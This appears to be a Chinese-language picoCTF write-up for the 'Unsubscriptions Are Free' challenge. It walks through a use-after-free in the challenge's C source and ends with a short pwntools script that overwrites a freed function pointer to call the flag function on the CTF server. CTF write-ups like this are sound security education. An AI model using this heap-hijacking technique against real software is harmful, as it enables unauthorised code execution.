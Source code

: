 # Unsubscriptions Are Free 10
>Check out my new video-game and spaghetti-eating streaming channel on Twixer! program and get a flag. vuln.c  
nc mercury.picoctf.net 6312

# Vuln
在cmd结构体中定义了user的首地址的值是要执行的函数指针，首地址+4是指向username地址的指针。
```cpp
typedef struct {
	uintptr_t (*whatToDo)();
	char *username;
} cmd;

void doProcess(cmd* obj) {
	(*obj->whatToDo)();
}

cmd *user;
```
注销账户时会将user free掉，但是没将被free的指针置null
```cpp
void i(){
	char response;
  	puts("You're leaving already(Y/N)?");
	scanf(" %c", &response);
	if(toupper(response)=='Y'){
		puts("Bye!");
		free(user);
	}else{
		puts("Ok. Get premium membership please!");
	}
}
```
leaveMessage会使用堆上可分配的最前8个字节
```cpp
void leaveMessage(){
	puts("I only read premium member messages but you can ");
	puts("try anyways:");
	char* msg = (char*)malloc(8);
	read(0, msg, 8);
}
```
且leaveMessage不会改写user的函数指针whatToDo，会不检测user是否未被初始化/释放就会尝试直接执行user的whatToDo  
注释提示了这点易受攻击
```cpp
int main(){
	setbuf(stdout, NULL);
	user = (cmd *)malloc(sizeof(user));
	while(1){
		printMenu();
		processInput();
		//if(user){
			doProcess(user);
		//}
	}
	return 0;
}
```

# PWN!
注销用户释放user -> 用leaveMessage向原先属于(user->whatToDo)的地址写入目标函数hahaexploitgobrrr()的地址 -> 程序执行hahaexploitgobrrr()
```python
```
from pwn import *
p=remote('mercury.picoctf.net',6312)

p.sendline('i')
p.sendline('y')
p.sendline('l')
p.recvuntil("try anyways:")
p.sendline(p32(0x80487d6))
p.interactive()
```
